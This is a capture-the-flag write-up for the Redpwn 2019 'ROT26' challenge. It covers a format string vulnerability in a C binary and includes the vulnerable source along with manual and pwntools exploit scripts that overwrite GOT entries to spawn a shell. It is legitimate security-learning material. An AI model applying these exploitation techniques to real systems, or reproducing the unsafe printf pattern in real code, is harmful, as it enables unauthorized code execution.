 ## Redpwn CTF ROT26 Challenge

### Challenge Info

__ctf__: `Redpwn` \
__challenge__: `ROT26` \
__category__: `Pwn` \
__solves__: `203/926` \
__points__: `50` \
__solver__: `ordbl0ke` \ 
__description__: `written by: blevy, nc chall2.2019.redpwn.net 4003` \
__keywords__: `format string vulnerability, overwrite GOT, C` \
__original write up__: [here](https://github.com/dissect-ctu/ctfs/tree/master/2019/Redpwn_CTF/pwn_ROT26_50pts) 

---

For this challenge we were given two files: source `rot26.c` and `rot26` compiled binary.

### Write-up

Without further ado, let's examine the source `rot26.c`:

```C
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *ualphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
char *lalphabet = "abcdefghijklmnopqrstuvwxyz";

char *rot26(char *dst, char *src, size_t n)
{
	int i, x;

	for (i = 0; i < n; i++) {
		if (isupper(src[i])) {
			x = ualphabet[((src[i] - 'A') + 26) % strlen(ualphabet)];
		} else if (islower(src[i])) {
			x = lalphabet[((src[i] - 'a') + 26) % strlen(lalphabet)];
		} else {
			x = src[i];
		}
		dst[i] = x;
	}
}

void winners_room(void)
{
	puts("Please, take a shell!");
	system("/bin/sh");
	exit(EXIT_SUCCESS);
}

int main(void)
{
	char buf[4096];
	char sanitized[4096];

	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

	fgets(buf, sizeof(buf), stdin);
	rot26(sanitized, buf, sizeof(sanitized));
	printf(sanitized);
	exit(EXIT_FAILURE);
}

```

#### Vulnerability

Provided binary reads input from the user (with correctly used `fgets` here, so no overflow for us) into `buf`, then applies ROT26 on it (which effectively does nothing) and stores the result into `sanitized`, and finaly uses vulnerable `printf(sanitize)` to reflect input back to user. Another important thing to notice is the `winners_room` function. If we successfully redirect the code execution to this function, it will give us the shell for free.

#### Exploitation

So we have a format string vulnerability present, cool. We know that with this kind of vulnerability we can do memory reads and writes, but how do we spawn our shell? We can see that immediately after the vulnerable `printf` call, `exit` function is called. Thus, we can use our vulnerability to overwrite `exit`'s entry  in `GOT`(Global offset table) to the address of `winners_room` function and we're done. If you're not familiar with format string vulnerability or what GOT overwrite is, please check references. All the necessary addresses can be obtained with `radare2` tool or `pwnlib`'s `ELF`.  

#### Trouble 

What seemed a straightforward exploit got me into trouble for a while. I used python to compose my exploit and saved it into a file `/tmp/payload`. Then I ran `rot26` with redirected input and instead of shell I got Segmentation fault.

![fail](img/fail.png)

When I checked in `gdb`, it seemed correct, the `/bin/sh` got executed. However, I forgot about a little problem with `fgets`. My interpretation of what happened was that the shell got spawned with input still redirected, but all it got was EOF, so it immediately shut down.

To solve this, I used a slightly different way of passing the payload to executable:
```bash
(cat /tmp/payload; cat) | ./rot26
```
Since cat without parameters waits for user input, I was able to hold on to the shell session and get my flag. (the screen is taken from local machine, so there's no flag present, just listing of my directory)  

![success](img/success.png)

#### Exploits

During solving this challenge, I spent significant amount of time crafting my payload manually. After the CTF ended and I read write ups of other contenders, I found out that there is a support for exploiting format string vulnerability in `pwntools`. So I decided to leave my manual exploit that I used during the CTF here. But I also wanted to experiment a little bit with the `pwntools` so I provide a cleaner and nicely readable exploit too.  

##### Original Exploit
In my original exploit, I only realised the true problem with `fgets` after I thought the problem was with `exit` being overwritten. So this exploit overwrites two `GOT` entries - `exit`'s and `strlen`'s. This causes the executable to return to `main` when `exit` is called and `winners_room` is spawned when the next `strlen` call comes.
```python
from pwn import *

# Writes main's address to exit's GOT entry an winners_room address to strlen's GOT entry

exit_got_addr = 0x804a020
strlen_got_addr = 0x804a024
winners_room_addr = 0x8048737
main_addr = 0x8048777

offset = 6*' %p'

payload = p32(exit_got_addr) 
payload += p32(exit_got_addr) # 1st n-write
payload += p32(exit_got_addr)
payload += p32(exit_got_addr+1) # 2nd n-write
payload += p32(exit_got_addr)
payload += p32(exit_got_addr+2) # 3rd n-write
payload += p32(exit_got_addr) 
payload += p32(exit_got_addr+3) # 4th n-write
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+1)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+2)
payload += p32(exit_got_addr) 
payload += p32(strlen_got_addr+3)
payload += offset 
payload += '%9x%n' # makes the total number of written bytes 0x77 and writes this to 1st write
payload += '%16x%n' # makes the total number of written bytes 0x87 and writes to 2nd write
payload += '%125x%n' # writes 0x04 to exit_got_addr +2 and 0x01 to exit_got_addr +3
payload += '%260x%n' # writes 0x08 to exit_got_addr +3 
payload += '%47x%n' # writes 0x37 to strlen_got_addr
payload += '%80x%n' # writes 0x87 to strlen_got_addr+1
payload += '%125x%n'# writes 0x04 to strlen_got_addr+2
payload += '%260x%n'# writes 0x08 to strlen_got_addr+3
print payload
```

##### pwntools Exploit
And this as simple as it can get:

```
from pwn import *

elf = ELF('./rot26')
exit_got_addr = elf.got['exit']
winners_room_addr = elf.sym['winners_room']

p = process('./rot26')

writes = {exit_got_addr: winners_room_addr}
payload = fmtstr_payload(7, writes, 0)

p.sendline(payload)
p.interactive()
```

#### References
1. format string vulnerability http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
2. radare2 https://github.com/radare/radare2
3. pwntools http://docs.pwntools.com/en/stable/
4. GOT overwrite https://www.youtube.com/watch?v=t1LH9D5cuK4